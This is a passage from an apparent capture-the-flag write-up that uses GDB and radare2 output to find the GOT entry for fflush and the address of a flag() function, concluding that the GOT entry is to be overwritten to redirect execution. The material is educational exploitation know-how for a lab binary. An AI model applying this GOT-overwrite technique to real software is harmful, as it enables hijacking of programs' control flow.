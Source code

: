 {% tab title="Radare2" %}
```nasm
[0xf7f448a0]> pxw 4 @ reloc.fflush
0x0804a028  0x080485c6                                   ....
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
For the radare2 output, we can also use `pdf @ sym.imp.fflush` to see the address of the function. This shows us the PLT entry, which jumps us to the address in the GOT (`reloc.fflush`).
{% endhint %}

In the `got` table, `fflush` is at `0x0804a028`. We can verify this by checking the address for an instruction:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/i 0x804a028
   0x804a028 <fflush@got.plt>:	mov    BYTE PTR [ebp-0x7a29f7fc],0x4
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0xf7f448a0]> pd 1 @ reloc.fflush
            ;-- reloc.fflush:
            ; DATA XREF from sym.imp.fflush @ 0x80485c0(x)
            0x0804a028      c6850408d685.  mov byte [ebp - 0x7a29f7fc], 4; RELOC 32 fflush
```
{% endtab %}
{% endtabs %}

We also need the address of `flag`:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  info functions flag
All functions matching regular expression "flag":

Non-debugging symbols:
0x0804870b  flag()
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0xf7f448a0]> afl | grep flag
0x0804883c    1     26 sym._GLOBAL__sub_I__Z4flagv
0x0804870b    1     25 sym.flag__
```
{% endtab %}
{% endtabs %}

Therefore, we need to change the value at `0x0804a028` to `0x0804870b`.
